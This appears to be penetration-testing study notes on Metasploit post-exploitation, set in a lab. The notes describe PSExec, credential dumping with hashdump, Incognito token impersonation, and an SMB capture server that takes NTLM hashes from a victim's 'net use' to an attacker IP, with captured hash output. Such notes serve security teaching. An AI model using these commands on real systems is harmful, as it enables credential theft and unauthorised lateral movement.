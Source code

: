 * PSExec uploads a Windows service executable to the ADMIN$ share.
* Connects to the Windows Service Control Manager using remote procedure call (RPC) to start the executable service.
* The service then sets up an SMB named pipe to send commands and remotely control the target system.

Credentials:
* Can pass the plain text password or the hash

meterpreter > hashdump
post/windows/gather/hashdump
post/windows/gather/smart_hashdump (gather AD credentials if available)

## SSHExec (mainly linux)

```
exploit/multi/ssh/sshexec
```

# Token Attacks

* Incognito searches all handles on the system to determine which ones belong to tokens using low-level Windows API calls.

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token BOOKXP\\secret
meterpreter > getuid
```

# SMB Capture

Capture domain hashes without having access to the controller.

```
auxiliary/server/capture/smb
   set JOHNPWFILE /root/johnfile
   exploit
```

In victim machine:
```
meterpreter > shell
C:\Documents and Settings\secret>net use \\192.168.20.9\blah
```

In SMB capture:
```
[*] SMB Captured - 2015-08-14 15:11:16 -0400
NTLMv1 Response Captured from 192.168.20.10:1078 – 192.168.20.10
USER:secret DOMAIN:BOOKXP OS:Windows 2002 Service Pack 3 2600 LM:Windows 2002 5.1
LMHASH:76365e2d142b5612338deca26aaee2a5d6f3460500532424
NTHASH:f2148557db0456441e57ce35d83bd0a27fb71fc8913aa21c
```
